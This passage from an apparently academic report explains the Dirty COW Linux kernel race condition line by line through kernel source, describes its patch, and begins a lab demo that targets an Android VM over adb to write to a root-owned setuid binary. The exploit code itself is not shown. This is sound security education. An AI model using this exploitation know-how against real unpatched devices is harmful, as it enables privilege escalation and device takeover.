The \textit{do} loop is iterated \textit{nr\_pages} times, i.e. once for every page that should be retrieved \cite{23}. \textit{nr\_pages} is set to one in the get\_user\_pages call (listing \ref{accessremotevm function}). Therefore, the loop is iterated once.

\textit{mm} contains a list of vm\_area\_structs of the target process \cite{19}. Using \textit{mm}, the variable \textit{vma}\index{Virtual Memory Area} is set to the vm\_area\_struct that includes the virtual address \textit{start} in the virtual address space\index{Virtual Address Space} of the target process \cite{23}.

\textit{cond\_resched} asks the scheduler to reschedule the current process \cite{24}. If a process with higher priority exists and can be scheduled, the execution of the current process is paused, and the higher priority process is run \cite{24}. This introduces latency which makes the Dirty COW more reliable. More on this later.

\textit{follow\_page\_mask} attempts to return the page that includes the virtual address \textit{start} in the virtual address space\index{Virtual Address Space} of the target process \cite{23}. A page is only returned if the \textit{foll\_flags} do not conflict with what is allowed for a given page \cite{23} \cite{1}. NULL is returned if no page can be returned \cite{23}. For example, if the page that includes virtual address \textit{start} is read-only and \textit{foll\_flags} contains \textit{FOLL\_WRITE}, \textit{follow\_page\_mask} returns NULL. There are other cases where \textit{follow\_page\_mask} can return NULL, e.g. if there is no page at virtual address \textit{start} or if the page is in swap \cite{23} \cite{1}, but these cases are not relevant for the Dirty COW bug.

\textit{follow\_page\_mask} goes through several intermediary functions that, among other things, handle the cases mentioned in the previous paragraph and traverse the levels of the page table\index{Page Table} to get to the Page Table Entry (PTE)\index{Page Table Entry} for the page at virtual address \textit{start}. For a private COW mapping\index{private COW mapping} for which no copy exists yet, the following code is executed in the follow\_page\_pte function:

\begin{lstlisting}[caption=follow\_page\_pte function in /mm/gup.c \cite{23}, captionpos=b, language=C, label=followpagepte function]
if ((flags & FOLL_WRITE) && !pte_write(pte)) {
	pte_unmap_unlock(ptep, ptl);
	return NULL;
}

page = vm_normal_page(vma, address, pte);
... return page
\end{lstlisting}

\textit{pte} is a pointer to the PTE\index{Page Table Entry} for the page at virtual address \textit{start}. This page exists, it's the page from the underlying file. The \textit{pte\_write} function examines whether or not the userspace process can write to PTE \textit{pte} \cite{25}. In this case \textit{pte\_write} returns false, because the \textit{pte} page from the underlying file is read-only. \textit{'flags \& FOLL\_WRITE'} evaluates to true if \textit{flags} contains \textit{FOLL\_WRITE}. All in all, the if-statement evaluates to true and \textit{NULL} is returned from follow\_page\_pte and from \textit{follow\_page\_mask}.

\section{Page Fault Handler}

Back in the \textit{\_\_get\_user\_pages} function from listing \ref{getuserpages2 function}, page is NULL so the true block of the 'if (!page)'-statement is exectued. This calls \textit{faultin\_page}, which implements the previously mentioned page fault handling \cite{23}. Relevant parts of the \textit{faultin\_page} function are shown in the following listing \ref{faultinpage function}:

\begin{lstlisting}[caption=faultin\_page function in /mm/gup.c \cite{23}, captionpos=b, language=C, label=faultinpage function]
static int faultin_page(struct task_struct *tsk, struct vm_area_struct *vma,
		unsigned long address, unsigned int *flags, int *nonblocking)
{
	struct mm_struct *mm = vma->vm_mm;
	unsigned int fault_flags = 0;
	int ret;

... translate Foll flags in 'flags' to fault_flags
	if (*flags & FOLL_WRITE)
		fault_flags |= FAULT_FLAG_WRITE;
... translate more Foll flags

	ret = handle_mm_fault(mm, vma, address, fault_flags);
...
	/*
	 * The VM_FAULT_WRITE bit tells us that do_wp_page has broken COW when
	 * necessary, even if maybe_mkwrite decided not to set pte_write. We
	 * can thus safely do subsequent page lookups as if they were reads.
	 * But only do so when looping for pte_write is futile: in some cases
	 * userspace may also be wanting to write to the gotten user page,
	 * which a read fault here might prevent (a readonly page might get
	 * reCOWed by userspace write).
	 */
	if ((ret & VM_FAULT_WRITE) && !(vma->vm_flags & VM_WRITE))
		*flags &= ~FOLL_WRITE;
	return 0;
}
\end{lstlisting}

As mentioned previously, \textit{faultin\_page} implements page fault handling\index{Page Fault Handler}. A page fault\index{Page Fault} is an attempt to access a page, in this case via the \textit{follow\_page\_mask} function, that did not immediately succeed \cite{29}. If a page fault in \textit{follow\_page\_mask} occurs, \textit{faultin\_page} tries to resolve the fault and make \textit{follow\_page\_mask} succeed the next time it is invoked. The Foll flags in \textit{flags} are first translated to a corresponding Fault flag\index{Fault Flag} in \textit{fault\_flags} \cite{23} \cite{1}. The most important Foll flag for Dirty COW is \textit{FOLL\_WRITE}, which is translated to \textit{FAULT\_FLAG\_WRITE}.

\section{Copy Page in COW mapping} \label{Copy Page in COW mapping}

\textit{handle\_mm\_fault} goes through several intermediary functions in which it is determined that the cause of the page fault\index{Page Fault} is that no PTE\index{Page Table Entry} for the COW copy exists. This leads to the invocation of the do\_fault function, which is shown in the following listing:

\begin{lstlisting}[caption=do\_fault function in /mm/memory.c \cite{18}, captionpos=b, language=C, label=dofault function]
static int do_fault(struct mm_struct *mm, struct vm_area_struct *vma,
		unsigned long address, pte_t *page_table, pmd_t *pmd,
		unsigned int flags, pte_t orig_pte)
{
...
	if (!(flags & FAULT_FLAG_WRITE))
		return do_read_fault(mm, vma, address, pmd, pgoff, flags,
				orig_pte);
	if (!(vma->vm_flags & VM_SHARED))
		return do_cow_fault(mm, vma, address, pmd, pgoff, flags,
				orig_pte);
	return do_shared_fault(mm, vma, address, pmd, pgoff, flags, orig_pte);
}
\end{lstlisting}

The function arguments include \textit{vma}\index{Virtual Memory Area}, the vm\_area\_struct of the private COW mapping\index{private COW mapping}, and \textit{flags}, the Fault flags\index{Fault Flag}. The first if-Statement is not evaluated as true, because \textit{flags} do contain \textit{FAULT\_FLAG\_WRITE}. \textit{do\_read\_fault} is therefore not called. The second if-Statement is evaluated as true, because the mapping is a private COW mapping and not a shared mapping\index{Shared Mapping}. \textit{do\_cow\_fault} is called, relevant parts of this function are shown in the following listing:

\begin{lstlisting}[caption=do\_cow\_fault function in /mm/memory.c \cite{18}, captionpos=b, language=C, label=docowfault function]
static int do_cow_fault(struct mm_struct *mm, struct vm_area_struct *vma,
		unsigned long address, pmd_t *pmd,
		pgoff_t pgoff, unsigned int flags, pte_t orig_pte)
{
	struct page *fault_page, *new_page;
	pte_t *pte;
	int ret;
...
	if (unlikely(anon_vma_prepare(vma)))
		return VM_FAULT_OOM;

	new_page = alloc_page_vma(GFP_HIGHUSER_MOVABLE, vma, address);
...
	ret = __do_fault(vma, address, pgoff, flags, new_page, &fault_page);
...
	if (fault_page)
		copy_user_highpage(new_page, fault_page, address, vma);
...
	do_set_pte(vma, address, new_page, pte, true, true);
...
	return ret;
}
\end{lstlisting}

\textit{anon\_vma\_prepare} adds an anon\_vma\index{Virtual Memory Area} struct as a member of the \textit{vma} struct, assuming no such anon\_vma struct was added to \textit{vma} already. \textit{vma} is the private COW mapping\index{private COW mapping} \cite{27}. anon\_vma can hold a list of anonymous pages\index{Anonymous Page} \cite{27}. An anonymous page is not backed by a file \cite{29}. For example, copied pages are anonymous pages and the anon\_vma that is attached to \textit{vma} will hold copied pages. anon\_vma has no separate set of access permission flags that are exclusively for its anonymous pages \cite{27}. This means the access to these anonymous pages\index{Anonymous Page} is still subject to the access permission flags in \textit{vma}.


\textit{alloc\_page\_vma} allocates a new page \textit{new\_page} for the copy \cite{56}. \textit{\_\_do\_fault} sets \textit{fault\_page}, which is a page of the underlying file. \textit{copy\_user\_highpage} copies the content of \textit{fault\_page} to \textit{new\_page}.

\textit{do\_set\_pte} sets up a new PTE\index{Page Table Entry} for \textit{new\_page}, sets access permissions for this PTE, and adds \textit{new\_page} to \textit{vma's} anon\_vma \cite{18}. PTE access permissions are based on those specified in \textit{vma}. The PTE is successfully marked as 'dirty' \cite{18}. \textit{do\_set\_pte} also calls \textit{maybe\_mkwrite}, which is shown in the following listing \ref{maybemkwrite function}, to try and set write permission for this PTE:

\begin{lstlisting}[caption=maybe\_mkwrite function in /include/linux/mm.h \cite{28}, captionpos=b, language=C, label=maybemkwrite function]
static inline pte_t maybe_mkwrite(pte_t pte, struct vm_area_struct *vma)
{
	if (likely(vma->vm_flags & VM_WRITE))
		pte = pte_mkwrite(pte);
	return pte;
}
\end{lstlisting}

This fails however, because the private COW mapping\index{private COW mapping} \textit{vma}\index{Virtual Memory Area} does not contain \textit{VM\_WRITE} in its \textit{vm\_flags}. Thus, the copied PTE has no write permissions. As a side note, the kernel can't add the \textit{VM\_WRITE} flag, because if the length of the mapping is large enough, the mapping consists of multiple pages. Due to lazy COW initialization, other pages in the same mapping might not be copied yet. Setting \textit{VM\_WRITE} would allow writing to all pages, be it anonymous or non-anonymous\index{Anonymous Page}, so that writing to other pages of the mapping would result in writing to the underlying file.

\section{The Dirty COW Bug}

\textit{handle\_mm\_fault} and \textit{faultin\_page} return with return value zero. This triggers a retry via the previously mentioned 'goto retry' label (listing \ref{getuserpages2 function}). \textit{follow\_page\_mask} is called a second time but fails again for the same reason as the first time, which was shown and explained in listing \ref{followpagepte function}. The Foll flags still contain FOLL\_WRITE and the pte\index{Page Table Entry} is still marked read-only.

The page fault handler \textit{faultin\_page}\index{Page Fault Handler} is called a second time. The difference this time is that the page is copied already, and the page fault handler notices that. Let's examine the situation that the page fault handler faces:

\begin{itemize}
  \item The process wants to write to the copied page (this is indicated via  FOLL\_WRITE in the Foll flags).
  \item The PTE\index{Page Table Entry} of this page is marked read-only, thus the write access request is denied and no page is returned from \textit{follow\_page\_mask}.
  \item The page fault handler\index{Page Fault Handler} in \textit{faultin\_page} tries to allow write access for this PTE, which fails, because the \index{private COW mapping}private COW mapping (vma) access flags do not contain VM\_WRITE.
  \item Adding VM\_WRITE to the private COW mapping (vma)\index{Virtual Memory Area} access flags could break COW, because some other pages of the mapping might not be copied yet.
\end{itemize}

If nothing is done, \textit{\_\_get\_user\_pages} (listing \ref{getuserpages2 function}) would loop forever due to the '\textit{goto retry}' label \cite{1}. \textit{wp\_page\_reuse} returns with the flag VM\_FAULT\_WRITE. The function \textit{wp\_page\_reuse} is invoked as part of the page fault handling when the page fault handler\index{Page Fault Handler} notices that an anonymous\index{Anonymous Page}, copied and read-only COW page is the target of a write access. The \textit{wp\_page\_reuse} implementation is not important for the Dirty COW bug. What is important however, is that this VM\_FAULT\_WRITE ends up getting returned from the \textit{handle\_mm\_fault} function, which is called in the \textit{faultin\_page} function (listing \ref{faultinpage function}). The relevant bottom half of the \textit{faultin\_page} function is shown again below:

\begin{lstlisting}[caption=Bottom half of faultin\_page function in /mm/gup.c \cite{23}, captionpos=b, language=C, label=faultinpage function2]
	ret = handle_mm_fault(mm, vma, address, fault_flags);
...
	/*
	 * The VM_FAULT_WRITE bit tells us that do_wp_page has broken COW when
	 * necessary, even if maybe_mkwrite decided not to set pte_write. We
	 * can thus safely do subsequent page lookups as if they were reads.
	 * But only do so when looping for pte_write is futile: in some cases
	 * userspace may also be wanting to write to the gotten user page,
	 * which a read fault here might prevent (a readonly page might get
	 * reCOWed by userspace write).
	 */
	if ((ret & VM_FAULT_WRITE) && !(vma->vm_flags & VM_WRITE))
		*flags &= ~FOLL_WRITE;
	return 0;
}
\end{lstlisting}

The block comment in this listing \ref{faultinpage function2} is from the kernel developers \cite{23}. They argue, that \textit{FOLL\_WRITE} can be dropped from the Foll flags \textit{flags} if \textit{VM\_FAULT\_WRITE} is set, because the process wants to write to a COW copied page. \textit{VM\_FAULT\_WRITE} is only set in \textit{ret} if this copy exists. Writing to a COW copy is always allowed.

If \textit{VM\_FAULT\_WRITE} is set and the \textit{vma}\index{Virtual Memory Area} access flags do not contain the \textit{VM\_WRITE} flag, which is the case here, the if-statement in listing \ref{faultinpage function2} is evaluated as true and \textit{FOLL\_WRITE} is dropped from the Foll flags \textit{flags}. This means, that after another 'goto retry', \textit{follow\_page\_mask} is called a third time and this call will skip checking if the target PTE\index{Page Table Entry} allows writing. The Foll flags now specify a read access, which is allowed by the COW copied read-only pages \cite{1}. Thus the PTE of the copied page is no longer required to have write permissions. A copied page can then be successfully returned by \textit{follow\_page\_mask} (listing \ref{getuserpages2 function}). This breaks the 'goto retry' loop.

The problem is that this third \textit{follow\_page\_mask} call does not always succeed. \textit{follow\_page\_mask} fails if the PTE does not exist. This PTE does not exist if another thread called madvise with MADV\_DONTNEED\index{MADV\_DONTNEED} to unmap the copied page. Due to the thread reschedule via \textit{cond\_resched} before the call to \textit{follow\_page\_mask} (listing  \ref{getuserpages2 function}), there is often ample time to run madvise in between when \textit{faultin\_page} returns and when the following \textit{follow\_page\_mask} is called for the third time.

So far, nothing bad happens \cite{1}. \textit{follow\_page\_mask} returns NULL if the copied page was unmapped and the PTE\index{Page Table Entry} does not exist anymore \cite{1}. The second problem is that Foll flags do not contain \textit{FOLL\_WRITE} anymore, so the page fault handler\index{Page Fault Handler} that is called in response to the NULL page interprets the access as a read access, even though the process wants to write to the faulting page \cite{1}.

Due to the 'read access', the page fault handler\index{Page Fault Handler} does not perform a COW via \textit{do\_cow\_fault}, as shown in section \ref{Copy Page in COW mapping}. Instead, the page fault handler solves this 'read access' of a non-existent page by allocating and setting up a new page and its PTE\index{Page Table Entry} in the page table\index{Page Table}. This page is filled with the data from the underlying file 'on disk' (more specifically, the data is from the kernel page cache) \cite{1} \cite{18}. As a result of the 'read access' page fault\index{Page Fault} in listing \ref{dofault function}, the \textit{do\_fault} function calls the \textit{do\_read\_fault} function instead of the \textit{do\_cow\_fault} function.

After another 'goto retry', the fourth \textit{follow\_page\_mask} call succeeds but returns the page from the underlying file and not a copy of this page. This page is read-only, but due to the 'read access' Foll flags, the read-only underlying file page is successfully returned. This page is returned to the \textit{\_\_access\_remote\_vm} function (listing  \ref{accessremotevm function}), where \textit{copy\_to\_user\_page} is called to write the 'to\_be\_written' string to the page, i.e. to the underlying file. This was shown and explained in section \ref{Process-to-Process Virtual Memory Access}\index{Virtual Memory Access}.\index{Virtual Memory} \textit{copy\_to\_user\_page} does not check the access permissions of the page. This results in unauthorized writing to a read-only page/file.

The \textit{faultin\_page} function is only invoked if virtual memory is accessed via the process-to-process virtual memory\index{Virtual Memory} access implementation \cite{1}. That is why the Dirty COW does not occur if a process directly writes to its own memory mapping\index{Memory Mapping}. Both process-to-process and direct writes to a memory mapping will eventually invoke the \textit{handle\_mm\_fault} function \cite{1}.

\section{Dirty COW Bugfix}

\begin{figure}[!h]
	\centering
	
\includegraphics[width=1\textwidth]{patchinfaultinpage.PNG}
	\caption{Dirty COW patch in faultin\_page \cite{31}}
	\label{fig:patchinfaultinpage}
\end{figure}

The bugfix patch introduced a new Follow flag\index{Follow Flag} called \textit{FOLL\_COW} \cite{31}. If \textit{wp\_page\_reuse} returns the VM\_FAULT\_WRITE flag, this \textit{FOLL\_COW} flag is added to the Follow flags in the page fault handler's\index{Page Fault Handler} \textit{faultin\_page} function \cite{31}. The \textit{FOLL\_WRITE} flag from the Follow flags is not dropped anymore \cite{31}. The relevant part of the patch is shown in figure \ref{fig:patchinfaultinpage}. Due to this change, the write access will not get interpreted as a read access anymore.

\begin{figure}[!h]
	\centering
	
\includegraphics[width=1\textwidth]{patchinfollowpagemask.PNG}
	\caption{Dirty COW patch in follow\_page\_mask \cite{31}}
	\label{fig:patchinfollowpagemask}
\end{figure}

If the \textit{FOLL\_COW} flag is set, the \textit{follow\_page\_mask} function knows that a copied COW page should exist. If this copied page exists, even if it is read-only, \textit{follow\_page\_mask} returns this copy. This is shown in the second part of the patch in figure \ref{fig:patchinfollowpagemask}. Before the patch in figure \ref{fig:patchinfollowpagemask}, if the Follow flags contain \textit{FOLL\_WRITE} and the target PTE\index{Page Table Entry} is not writable (\textit{!pte\_write(pte)}), NULL is returned \cite{31}. After the patch, the check whether the PTE is writable is replaced with a call to the \textit{can\_follow\_write\_pte} function \cite{31}. \textit{can\_follow\_write\_pte} returns true if either the PTE is writable or the PTE is a copied COW page \cite{31}. If the PTE is a copied COW page, this copy is returned instead of returning NULL. If the copied page does not exist, i.e. when this page was unmapped via madvise MADV\_DONTNEED\index{MADV\_DONTNEED}, the page is copied again via another \textit{faultin\_page} call.

\chapter{Demo 1 - /proc/self/mem Method} \label{Demo 1}

This demo demonstrates writing as an unprivileged user to a set-user-ID\index{set-user-ID binary} binary file that is owned by root. The source code of the exploit used in this demo is similar to the 'exploit.c' minimalistic exploit from \cite{2}, which was used and explained in the bug analysis chapter \ref{Bug Analysis}.

This demo and the demo in the next chapter are run on android 6.0-rc1. The VM is from the android-x86 project \cite{32}. In addition to the android VM, a Ubuntu VM with Android Debug Bridge (adb) installed is used to communicate with the android device. Both VMs were uploaded to the BWSync and Share Fileshare with the name 'Mobilgeraete\_Ebert\_DirtyCOW.ova'. The VMs are for VirtualBox.

\section{Setup}

Download and import the 'Mobilgeraete\_Ebert\_DirtyCOW.ova' VM. In VirtualBox Manager, make sure that the android VM has at least two processor cores available. Both the demo1 and demo2 exploits do not work if the android VM has only one core available. When importing the VMs with unchanged import settings, the android VM should have more than 2 cores configured already. If the android VM is imported already, you can check and set the number of cores in VirtualBox Manager via: Select the android VM -> Machine -> Settings -> System -> Processor -> Processor(s) slide.


Additionally, the Ubuntu VM has to communicate with the android VM. This can be achieved with, for example, adding both VMs to the same NAT Network. You can use an existing NAT Network or create a new one. A NAT Network is created in VirtualBox Manager via: File -> Preferences -> Network -> Adds new NAT network. (The symbol with the green plus on the right side) -> Right click the NAT network, press 'Edit NAT Network' and configure the NAT Network as shown in Figure \ref{fig:createNatNetwork}. An imported VM is added to a NAT Network in the VirtualBox Manager via: Select the VM -> Machine -> Settings -> Network -> Under 'Attacked to:' select NAT Network and under 'Name:' select the Name of the previously created NAT Network. Make sure that both VMs are in the same NAT Network.

\begin{figure}[!h]
	\centering
	
\includegraphics[width=1\textwidth]{createNatNetwork.PNG}
	\caption{Create NAT Network}
	\label{fig:createNatNetwork}
\end{figure}

Start the android VM. The android VM has a built-in root shell\index{Root Shell} from the android-x86 developers. When the window of the android VM is in focus, press <ALT> and F1 to switch to the root shell. You can switch back to the default android view with <ALT> and F7. Note that usually, for example on an android smartphone from a large smartphone manufacturer, the end-user has no root shell available and the root access is limited in general. That is why 'rooting' an android device to overcome limitations that the smartphone manufacturer put in place can be done. Rooting can be used to run apps that require root privileges or to replace the operating system, for example with a newer version of the original operating system.

Get the IP of the android VM. There are several ways to do this. One way is via the root shell in the android VM (select android VM window, press <ALT> and F1) and enter 'ip addr'. The IP of the android VM is under 'eth0' in the 'inet' row. In figure \ref{fig:androidvmip}, the IP of my android VM is '10.0.2.10' and is highlighted in red.  Note that your IP will likely differ.

\begin{figure}[!h]
	\centering
	
\includegraphics[width=1\textwidth]{androidvmip.PNG}
	\caption{Get Android VM IP Address}
	\label{fig:androidvmip}
\end{figure}

Start the Ubuntu VM. The user credentials for this VM are 'user:user' (username : password). Android Debug Bridge (adb) is used to communicate with the android VM. adb can be used to upload files from the host (Ubuntu VM) to the android VM, run shell commands in the android VM, and start a remote shell \cite{34}. The remote shell runs with the rights of an unprivileged user. adb is an official android development tool \cite{34}, developed by Google, and compatible with the majority of android devices. However, usually adb must be explicitly enabled in the android device's settings.

adb is not required for the exploits to work, because an arbitrary android app can execute shell commands and run native code as well \cite{35}. Thus, if the end-user installs a malicious android app on an android smartphone that is affected by the Dirty COW vulnerability, the malicious android app could exploit Dirty COW to gain root privileges and take control of the whole android device. However, all major smartphone manufacturers have released software updates that patch the Dirty COW vulnerability, and such security updates are usually installed automatically. For example, I have an old Samsung smartphone with android version 6, but this smartphone automatically installed a security update that fixed the Dirty COW bug.

Open a terminal in the Ubuntu VM. Run the command 'adb connect 10.0.2.10' but replace the '10.0.2.10' with the IP of the android VM. Next, run 'adb devices' to check the connection status of connected devices. Your output should be similar to the one in listing \ref{adb connect}:

\begin{lstlisting}[caption=Connect to android VM via adb, captionpos=b, language=bash, label=adb connect]
user@user:~$ adb connect 10.0.2.10
* daemon not running; starting now at tcp:5037
* daemon started successfully
connected to 10.0.2.10:5555
user@user:~$ adb devices 
List of devices attached
